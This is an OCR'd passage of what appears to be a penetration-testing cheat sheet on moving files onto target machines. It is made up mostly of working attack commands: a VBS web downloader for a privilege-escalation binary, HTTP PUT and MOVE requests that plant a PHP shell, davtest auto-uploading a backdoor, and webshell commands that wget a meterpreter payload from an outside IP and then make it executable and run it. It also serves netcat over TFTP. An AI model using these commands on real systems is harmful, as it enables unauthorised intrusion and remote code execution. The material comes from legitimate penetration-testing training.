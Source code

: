          timeout 1
         echo   .savetofile "C:\temp\windows-privesc-check2.exe", 2 '  >> webdl.vbs
         timeout 1
         echo end with >> webdl.vbs
         timeout 1
         echo
 
      The file can be run using the following syntax:
     
      `C:\temp\cscript.exe webdl.vbs`
     
-   Mounting File Shares
 
    -   Mount NFS share to /mnt/nfs  
        mount $ip:/vol/share /mnt/nfs
 
-   HTTP Put  
    nmap -p80 $ip --script http-put --script-args
    http-put.url='/test/sicpwn.php',http-put.file='/var/www/html/sicpwn.php
 
-   Uploading Files
    -------------------------------------------------------------------------------------------------------------
 
    -   SCP
   
        scp username1@source_host:directory1/filename1 username2@destination_host:directory2/filename2
       
        scp localfile username@$ip:~/Folder/
       
        scp Linux_Exploit_Suggester.pl bob@192.168.1.10:~
       
 
    -   Webdav with Davtest- Some sysadmins are kind enough to enable the PUT method - This tool will auto upload a backdoor
   
        `davtest -move -sendbd auto -url http://$ip`
     
        https://github.com/cldrn/davtest
       
        You can also upload a file using the PUT method with the curl command:
       
        `curl -T 'leetshellz.txt' 'http://$ip'`
       
        And rename it to an executable file using the MOVE method with the curl command:
 
        `curl -X MOVE --header 'Destination:http://$ip/leetshellz.php' 'http://$ip/leetshellz.txt'`
 
    -   Upload shell using limited php shell cmd  
        use the webshell to download and execute the meterpreter  
        \[curl -s --data "cmd=wget http://174.0.42.42:8000/dhn -O
        /tmp/evil" http://$ip/files/sh.php  
        \[curl -s --data "cmd=chmod 777 /tmp/evil"
        http://$ip/files/sh.php  
        curl -s --data "cmd=bash -c /tmp/evil" http://$ip/files/sh.php
 
    -   TFTP  
        mkdir /tftp  
        atftpd --daemon --port 69 /tftp  
        cp /usr/share/windows-binaries/nc.exe /tftp/  
        EX. FROM WINDOWS HOST:  
        C:\\Users\\Offsec>tftp -i $ip get nc.exe
 